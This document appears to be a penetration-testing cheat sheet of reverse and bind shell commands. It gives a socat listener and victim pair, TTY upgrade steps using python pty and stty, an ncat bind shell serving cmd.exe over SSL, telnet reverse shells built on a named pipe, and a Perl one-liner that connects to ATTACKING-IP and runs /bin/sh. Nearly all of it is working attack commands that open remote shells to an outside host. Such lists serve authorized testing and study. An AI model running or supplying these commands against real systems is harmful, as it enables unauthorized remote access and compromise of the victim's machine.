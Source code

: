 **Using socat**

```text
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

**Using stty options**

```text
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
 [ctrl-z]

# In Kali
$ echo $TERM
$ stty -a
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows 42 columns 132
```

### Ncat

Ncat is a better and more modern version of netcat. One feature it has that netcat does not have is encryption. If you are on a pentestjob you might not want to communicate unencrypted.

Bind

```text
ncat --exec cmd.exe --allow 192.168.1.101 -vnl 5555 --ssl
ncat -v 192.168.1.103 5555 --ssl
```

### Telnet

```text
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
```

```text
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```

### Perl

```text
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
